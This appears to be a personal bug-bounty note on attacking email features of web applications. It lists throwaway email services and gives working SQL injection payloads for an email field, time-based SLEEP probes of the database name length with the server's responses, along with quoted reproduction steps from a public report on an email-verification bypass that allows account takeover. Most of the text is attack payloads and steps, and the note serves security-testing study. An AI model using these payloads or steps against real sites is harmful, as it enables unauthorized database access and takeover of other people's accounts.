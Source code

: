 ```yaml
---
tags:
  - web_hunting
---
```

### **Throw Way Email Services**

Use throwaway email to create a temporary email: ○ [](https://mail.protonmail.com/)[https://mail.protonmail.com](https://mail.protonmail.com) ○ [](http://en.getairmail.com/)[http://en.getairmail.com](http://en.getairmail.com) ○ [https://temp-mail.org/en](https://temp-mail.org/en) ○ [](https://www.mailinator.com/)[https://www.mailinator.com](https://www.mailinator.com)

### **Username/Email Enumeration Non-Brute Force**

```python
Check the Registration Process and try to find Idor or endpoint that leaks usernames/emails
```

### **SQLI in Email Field**

```jsx
# SQLI in Email Field

{"email":"asd'a@a.com"} --> Not Valid
{"email":"asd'or'1'='1@a.com" }  --> valid
{"email":"a'-IF(LENGTH(database())>9,SLEE P(7),0)or'1'='1@a.com"} --> Not Valid
{"email":"a'-IF(LENGTH(database())>9,SLEE P(7),0)or'1'='1@a.com"}  -> Valid -->  Delay: 7,854 milis
{"email":"\\"a'-IF(LENGTH(database())=10,SLEEP(7),0)or'1'='1\\"@a.com"} --> {"code":0,"status":200,"mes sage":"Berhasil"} --> Valid --> Delay 8,696 milis
{"email":"\\"a"-IF(LENGTH(database())=11,SLEEP(7),0)or'1'='1\\"@a.com"} ---> {"code":0,"status":200,"mes sage":"Berhasil"} ---> Valid --> No delay

# Resources
- <https://dimazarno.medium.com/bypassing-email-filter-which-leads-to-sql-injection-e57bcbfc6b17>
```

### **Email Verification Feature**

- **[Email Verification Bypass Leads to PrivEsc](https://hackerone.com/reports/791775)a**
    
    ```python
    Visit <https://www.shopify.com/pricing> and signup a free trial with an email address, say attacker@gmail.com that you can receive emails
    after entering the fields to enter the store, on top right corner, click your name and go to Your Profile
    change your email to someone that you want to takeover, for example yaworsk@hackerone.com and click save
    All done now, grab a coffee, sit back and relax, watch some YouTube videos and wait for an email to go to your email attacker@gmail.com
    The email that you are waiting for is from mailer@shopify.com, and sent to the old emil
    Click the link and you should see your email has been updated to yaworsk@hackerone.com
    ```
    